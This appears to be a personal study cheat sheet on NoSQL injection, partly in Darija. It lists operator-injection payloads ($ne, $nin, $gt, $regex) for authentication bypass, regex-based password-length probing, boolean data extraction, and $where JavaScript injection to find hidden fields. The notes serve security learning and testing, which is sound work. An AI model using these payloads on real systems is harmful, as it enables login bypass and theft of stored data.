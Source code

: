 user=admin&passwd=admin

``user[$ne]=blabla&passwd[$ne]=blabla            : the first user

- syntax Injection - This is similar to SQL injection, where we have the ability to break out of the query and inject our own payload. The key difference to SQL injection is the syntax used to perform the injection attack.

- Operator Injection —Even if we can't break out of the query, we could potentially inject a NoSQL query operator that manipulates the query's behaviour, allowing us to stage attacks such as authentication bypasses.

``user[$nin][]=admin&passwd[$ne]=admin    : hna ay wahd mn ghir admin , ida 3ndk w7do5er w7bit mykonch howa than : 

``user[$nin][]=admin&user[$nin][]=yahiapasswd[$ne]=admin 

``user=admin&pass[$regex]=^.{7}$          : 7 for test the length of the password ( check error and good)

afetr know the length of the password : we test the characters by : ^a....$

---
### Authentication bypass : 

### - HTTP data : 
``username[$ne]=toto&password[$ne]=toto
``login[$regex]=a.*&pass[$ne]=lol
``login[$gt]=admin&login[$lt]=test&pass[$ne]=1
``login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

### - JSON data : 
``{"username": {"$ne": null}, "password": {"$ne": null}}
``{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
``{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
``{"username": {"$gt":""}, "password": {"$gt":""}}
``{"$regex":"admin.*"}, "password": {"$ne":""}}``


## Serach query : 

return all the data ( always true ) : ``hello'||1||'


### Exploiting NoSQL injection to extract data (boolean) : 

==note== : url encode the payload .

user=yahia' : error
user=yahia'+' : no error 
user=yahia' && '1'='1 : no error
user=admin' && this.password.length < 30 || 'a'='b   : get the lengthe of the password
user=admin' && this.password[§0§]='§a§


### Exploiting NoSQL operator injection to extract unknown fields :

we will use ``$where`` to run javascript and inject it .
{ $where: <string|JavaScript Code> }

in javascript : 

let userInfo={
"name":"yahia",
"age":20
};
Object.keys(userInfo)[0] => name

use javascript in the $where to find the length of the hidden input > the name of hidden input > the length of the value of teh hidden input > the value of the hidden input ( boolean based )




---
resources : https://swisskyrepo.github.io/PayloadsAllTheThings/NoSQL%20Injection/